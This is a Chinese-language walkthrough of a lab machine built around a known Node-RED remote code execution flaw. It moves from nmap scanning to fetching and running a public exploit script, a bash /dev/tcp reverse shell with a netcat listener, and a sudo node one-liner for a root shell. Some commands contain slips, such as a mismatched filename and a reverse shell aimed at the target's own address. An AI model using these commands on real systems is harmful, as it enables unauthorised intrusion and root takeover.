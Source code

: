 # 环境

来自[Vulny_Node](https://vulnyx.com/#Node)，利用已知node-red漏洞

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240906162953396](image/image-20240906162953396.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.14
```

![image-20240906163028522](image/image-20240906163028522.png)

## 服务详情

```bash
sudo nmap -sVC -O -p22,80,1880 192.168.10.14
```

![image-20240906163158113](image/image-20240906163158113-1725611521719-2.png)

# web渗透

## 已知node-red远程代码执行

google搜索node-red exploit，[漏洞脚本](https://gist.github.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297)

```bash
wget https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py
chmod 777 noderdsh.py
python noderdsh.py http://192.168.10.14
#可以反弹shell
nc -lvvp 8888
bash -i >& /dev/tcp/192.168.10.14/8888 0>&1
```

## 提权

[node提权](https://gtfobins.github.io/gtfobins/node/)

```bash
sudo -u root /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![image-20240906164507592](image/image-20240906164507592.png)